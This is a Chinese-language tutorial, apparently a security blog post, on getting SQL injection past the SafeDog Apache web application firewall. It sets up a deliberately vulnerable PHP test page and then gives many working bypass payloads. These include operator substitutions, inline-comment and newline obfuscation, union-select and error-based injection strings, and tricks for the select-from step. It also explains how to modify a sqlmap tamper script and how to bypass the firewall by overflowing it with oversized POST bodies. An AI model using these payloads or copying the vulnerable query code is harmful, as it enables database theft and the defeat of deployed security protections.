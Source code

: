 环境:安全狗Apache最新版(http://download.safedog.cn/download/software/safedogwzApache.exe)+phpstudy+windows系统

![](http://ww1.sinaimg.cn/large/0078beR7ly1g1xnf2dvc4j30p20920th.jpg)

本地测试代码:

```
<?php

$id = $_GET['id'];

$con = mysql_connect("localhost","root","root");

if (!$con){die('Could not connect: ' . mysql_error());}

mysql_select_db("dvwa", $con);

$query = "SELECT first_name,last_name FROM users WHERE user_id = '$id'; ";

$result = mysql_query($query)or die('<pre>'.mysql_error().'</pre>');

while($row = mysql_fetch_array($result))

{

 echo $row['0'] . "&nbsp" . $row['1'];

 echo "<br />";

}

echo "<br/>";

echo $query;

mysql_close($con);

?>
```

### 绕过拦截and 1=1

首先先稍微测试一番,发现存在安全狗

```
http://127.0.0.1/test.php?id=1 and and 1=1%23  
```

![](http://ww1.sinaimg.cn/large/0078beR7ly1g1xn9s3nv2j312h0izgnz.jpg)



那么可以试着将and替换成&&,URL编码得到%26%26,将1=1替换成true或者false,发现可以成功绕过

```
http://127.0.0.1/test.php?id=1' %26%26 true%23
```

![](http://ww1.sinaimg.cn/large/0078beR7ly1g1xnd1xr4nj30ub0dogm7.jpg)

另外在分享一些可以绕过目前版本的安全狗测试payload,(注:mysql支持&&  || ,oracle不支持 && ||）

```
http://127.0.0.1/test.php?id=1'  || true%23         //将and 1=1替换为|| true,也可以绕过安全狗
http://127.0.0.1/test.php?id=1'   ||(1) %23 		//使用括号代替空格绕过
//异或逻辑运算符xor，运算法则是：两个条件相同（同真或同假）即为假（0），两个条件不同即为真（1）
http://127.0.0.1/test.php?id=1'  xor 1%23			
http://127.0.0.1/test.php?id=1'  xor true%23
```

### 绕过order by查询

判断查询字段,使用mysql的`/*!*/` 内敛注释去绕过防护,而其中的代码是可以正常执行的

```
http://127.0.0.1/test.php?id=1' /*!order*//*!by*/2%23
```

![](http://ww1.sinaimg.cn/large/0078beR7ly1g1xzk579pxj30rn0cg74u.jpg)

### 绕过union select查询

使用union xxx页面正常,

![](http://ww1.sinaimg.cn/large/0078beR7ly1g1xzs0xrl1j30o40cxmxl.jpg)

但是用union和select放在在一起就被发现啦

![](http://ww1.sinaimg.cn/large/0078beR7ly1g1xzuqr9hpj312w0htdi3.jpg)

在网上找了好一阵子,发现有大佬提供的payload使用正则表达式去绕过

```
http://127.0.0.1/test.php?id=1'=/*!user () regexp 0x5e72*/--+
```



![](http://ww1.sinaimg.cn/large/0078beR7ly1g1y15lbq8oj30r40bnzkt.jpg)

- 对于数字型注入,可以将其转换成浮点型
- 联合查询绕waf,%0a为换行符经过URL编码得到的,可以通过换行符进行绕过,
- 函数中可以插入任何混淆字符绕过waf
- 另外使用-1可以省去空格绕过waf

```
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,user--%0a()%23
```

![](http://ww1.sinaimg.cn/large/0078beR7ly1g1yu5i8ptpj30cd094jrg.jpg)

基于报错信息的注入绕安全狗

```
http://127.0.0.1/test.php?id=1' and /*!12345updatexml!*/(1,concat(0x7e,version()))%23
http://127.0.0.1/test.php?id=1' and /*!12345extractvalue!*/(1,concat(0x7e,version()))%23
```

### 绕过select from

使用大括号去绕过

```
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,4From{information_schema.tables
```

![](http://ww1.sinaimg.cn/large/0078beR7ly1g1z22ne5lfj31730c2gmb.jpg)

使用反引号去绕过

```
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,4 From`information_schema.tables
```

使用\N去绕过

```
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,\Nfrom information_schema.tables
```

括号法去绕过

```
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,From(((information_schema.tables)))
```

也可以组合起来

```
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,4\Nfrom{a`information_schema`.tables}
```

这些都是去掉空格的合法语句,当然如果不拦截/**/或/*!*/的话,也可以尝试这两个

提示，安全狗默认不开启对information_schema的拦截，如果开启了，那么就得找支持post传递数据的注入点了，post下不拦截information_schema这个关键词。



补充点：php+mysql环境下支持的空格有：

%0a,%0b,%0c,%0d,%20,%09,%a0,/**/

其中使用的最多的就是%0a,%0b,%a0,/**/，这四个当作空格插入在语句中来扰乱waf检测。

 

干货分享：使用/*^!$asd%2a--=*/代替空格即可，找到sqlmap中tamper目录下的space2plus.py文件，将其中代替空格的/**/换成/*^!$asd%2a--=*/即可使用sqlmap跑了。



另外也可以对安全狗实行缓冲区溢出绕waf

缓冲区溢出用于对WAF，有不少WAF是C写的，而C语言本身没有缓冲区保护机制，因此如果WAF在处理测试量时超出其缓冲区长度，就会引发bug从而实现绕过

要求是(针对于安全狗而已):

​	GET类型请求转换成POST类型

​	Content-Length头长度大于4008

​	正常参数放置在脏数据后面

![](http://ww1.sinaimg.cn/large/0078beR7ly1g1z2hxvc3aj312z0eqkik.jpg)



